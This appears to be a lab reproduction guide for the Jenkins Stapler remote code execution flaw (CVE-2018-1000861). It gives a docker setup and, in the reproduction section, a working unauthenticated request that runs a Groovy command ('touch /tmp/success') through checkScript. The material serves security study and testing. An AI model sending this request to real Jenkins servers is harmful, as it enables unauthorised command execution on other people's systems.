

Jenkins Remote Code Execution (CVE-2018-1000861)¶
Jenkins is a popular open-source automation server.
A code execution vulnerability exists in the Stapler web framework used by Jenkins 2.153 and earlier, LTS 2.138.3 and earlier. In stapler/core/src/main/java/org/kohsuke/stapler/MetaClass.java, attackers can invoke some methods on Java objects by accessing crafted URLs that were not intended to be invoked this way.
Through this vulnerability, multiple exploit chains can be discovered. The most severe one allows unauthenticated users to execute arbitrary commands by bypassing the Groovy sandbox: Before Jenkins executes Groovy scripts in the sandbox, it first checks for syntax errors. This checking process occurs outside the sandbox, allowing attackers to execute arbitrary commands through Meta-Programming during this validation step.
References:
- http://blog.orange.tw/2019/01/hacking-jenkins-part-1-play-with-dynamic-routing.html
- http://blog.orange.tw/2019/02/abusing-meta-programming-for-unauthenticated-rce.html
- https://0xdf.gitlab.io/2019/02/27/playing-with-jenkins-rce-vulnerability.html
Environment Setup¶
Execute the following command to start Jenkins 2.138 with the vulnerable plugins pre-installed:
docker compose up -d
After the server is fully started, visit http://your-ip:8080 to access Jenkins. No manual installation is required.
Vulnerability Reproduction¶
Using @orangetw's one-click POC script, you can execute commands by sending the following request:
http://your-ip:8080/securityRealm/user/admin/descriptorByName/org.jenkinsci.plugins.scriptsecurity.sandbox.groovy.SecureGroovyScript/checkScript
?sandbox=true
&value=public class x {
public x(){
"touch /tmp/success".execute()
}
}

The successful creation of /tmp/success confirms the remote code execution:
